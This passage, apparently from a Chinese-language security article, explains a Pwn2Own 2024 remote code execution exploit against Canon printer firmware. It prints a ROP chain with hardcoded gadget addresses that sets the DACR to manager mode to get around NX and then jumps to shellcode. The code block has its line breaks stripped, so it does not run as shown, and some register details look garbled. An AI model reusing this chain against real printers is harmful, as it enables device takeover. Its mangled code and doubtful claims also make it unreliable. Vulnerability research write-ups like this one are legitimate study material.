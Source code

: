   
利用方法:  
- 将所有域的访问权限设置为“客户端模式”  
  
- 设置转换表的基地址  
  
- 使转换后备缓冲器（TLB）失效  
  
- 在系统控制寄存器中启用内存管理单元（MMU）  
  
- 使用屏障指令（DSB/ISB）确保正确的内存和指令顺序  
  
从技术实现角度来看，此代码片段通过R0寄存器传递页表基址，完成了对ARM架构内存管理单元（MMU）的初始化配置。具体而言，其通过设置TTBR0（转换表基址寄存器0）建立虚拟地址到物理地址的映射关系，并将SCTLR（系统控制寄存器）的XN位（eXecute Never）置1以激活NX（不可执行）保护机制，从而确保数据段（如栈、堆）不会被误解析为可执行代码。  
  
  
在安全攻防层面，该团队采用了基于域访问控制机制的特权提升策略。通过构造精心设计的ROP（返回导向编程）链，利用内核空间中存在的可控内存操作原语，将DACR（域访问控制寄存器）的16个域访问权限位全部设置为0b11（对应0xffffffff），即Manager模式。这种配置会使MMU在进行地址转换时忽略页表条目中XN位的限制，从而允许在原本被标记为不可执行的内存区域执行恶意代码。  
  
```
# Static address of the BNJP message buffer. Search MFNP Cmd. There is a referece at beginning of functionBJNP_BUF = 0x47429460# Offset into function, which sets the mode of the MMUDISABLE_ACCESS_CHECKS = 0x411aede0# Return gadget GADGET_RET = 0x40b03de0 + 1# 0x00000000413dbcce : pop.w {r1, r2, r3, r4, r6, lr, pc} ;GADGET_POP_LR = 0x413dbcce + 1# : pop {r0, r1, pc}POP_R0_R1_PC = 0x0000000040d74f10 + 1rop_chain = b""rop_chain += p32(POP_R0_R1_PC)rop_chain += p32(0x400fc000) # R0: Hardcoded value from the binaryrop_chain += p32(0xffffffff) # R1: Set manager bitsrop_chain += p32(GADGET_POP_LR) # PC: Next gadgetrop_chain += p32(0xffffffff) # R1: Set manager bitsrop_chain += p32(0x22222222) # R2rop_chain += p32(0x33333333) # R3rop_chain += p32(0x77777777) # R4rop_chain += p32(0x88888888) # R6rop_chain += p32(GADGET_RET) # LR: Executed at end of functionrop_chain += p32(DISABLE_ACCESS_CHECKS) # PC: Offset into our function setting the manager bitsrop_chain += p32(BJNP_BUF) # Last gadget: Return to shellcode
```  
  
  
在上述exploit执行流程中，我们首先通过寄存器传递关键参数：将R0设为页表基址指针，R1设为域访问控制位（DACR），完成对MMU初始状态的配置。随后利用GADGET_POP_LR指令片段劫持控制流，将链接寄存器LR的值覆为RET地址，确保首个gadget函数执行完毕后跳转至预期位置。紧接着，程序跳转到B地址处执行MMU重配置代码，通过修改域访问权限（将所有域设为Manager模式）绕过NX保护。最终，通过RET指令跳转至JNP_BUF，将执行权移交至预加载在缓冲区中的shellcode，实现任意代码执行。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**三、总结**  
  
****  
  
在本文中，我们详细解析了如何在打印机系统中定位漏洞，并通过精心构造的攻击路径成功实现远程代码执行（RCE），同时绕过了佳能固件中近期新增的安全防护机制  
。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**四、相关链接**  
  
****  
  
https://neodyme.io/en/blog/pwn2own-2024_canon_rce/  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8KrXv9sZf93yt4huq2kARyZSgmdnic40GayohIYiaD2FAkkAqJehJSMtQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  